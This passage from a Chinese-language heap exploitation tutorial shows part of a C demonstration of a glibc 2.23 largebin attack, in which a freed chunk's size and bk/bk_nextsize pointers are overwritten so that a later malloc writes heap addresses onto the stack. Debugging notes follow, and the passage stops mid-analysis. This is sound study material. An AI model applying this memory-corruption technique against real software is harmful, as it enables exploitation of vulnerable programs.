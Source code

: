 ```c
    void* p4 = malloc(0x90);

    free(p3);

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    malloc(0x90);

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```



注意选择低版本的loader，这里patch为2.23的。

执行结果：![image-20240718113226331](largebin\images\image-20240718113226331.png)

调试分析。

开启了-g选项就可以通过 b x 来对源代码的x行下断点进行源码调试。

先重点关注    void* p4 = malloc(0x90);这里

下断点运行到这里，看malloc(0x90)前的堆布局（间隔的三个是用来隔开防止合并的）
